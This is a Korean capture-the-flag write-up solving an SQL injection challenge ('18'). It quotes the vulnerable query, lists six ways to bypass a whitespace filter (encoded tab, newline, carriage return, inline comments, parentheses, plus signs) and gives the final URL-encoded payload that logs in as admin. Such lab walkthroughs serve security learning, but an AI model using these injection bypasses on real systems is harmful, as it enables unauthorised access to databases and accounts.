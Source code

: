 # 18

## 초기화면

![초기화면](./img/18_1.png)
sql인젝션 문제..

---
## 풀이

![소스코드](./img/18_2.png)
바로 소스코드를 확인해 본다

두번째 if문에서 sql 필터링을 하고 있다.

그다음 result를 담는 문장에서 쿼리문을 확인 할 수 있다.
```sql
select id from chall18 where id='guest' and no=$_GET[no]
```
주석에 admin의 no는 2라고 한다.

그 밑의 코드는 guest로 로그인하면 'hi guest'만 뜨고
우리는 admin으로 로그인을 해야 solve(18)이 호출이 되는 것..

즉 위의 쿼리문을 조작한다.
admin의 no 2를 포함하면서 id값을 admin으로 바꾸는 쿼리문은
```sql
select id from chall18 where id='guest' and no=2 or id='admin'
```
이렇게 들어가야 한다.

여기서 문제는 공백문자 필터링!!
이를 우회하기 위한 방법을 알아보면
>SQL Injection 공격시 공백 문자 필터링시 우회 방법
>1. Tab : %09
>
 > - no=1%09or%09id='admin'
>
>2. Line Feed (\n): %0a
>
 > - no=1%0aor%0aid='admin'
>
>3. Carrage Return(\r) : %0d
>
 > - no=1%0dor%0did='admin'
>
>4. 주석 : /**/
>
 > - no=1/**/or/**/id='admin'
>
>5. 괄호 : ()
>
 > - no=(1)or(id='admin')
>
>6. 더하기 : +
>
 > - no=1+or+id='admin'
>
>출처: https://binaryu.tistory.com/31 [BinaryU]

실제로 입력은
`2%0aor%0aid%0a=%27admin%27` 로 한다.

---
## 통과

![통과](./img/18_pass.png)

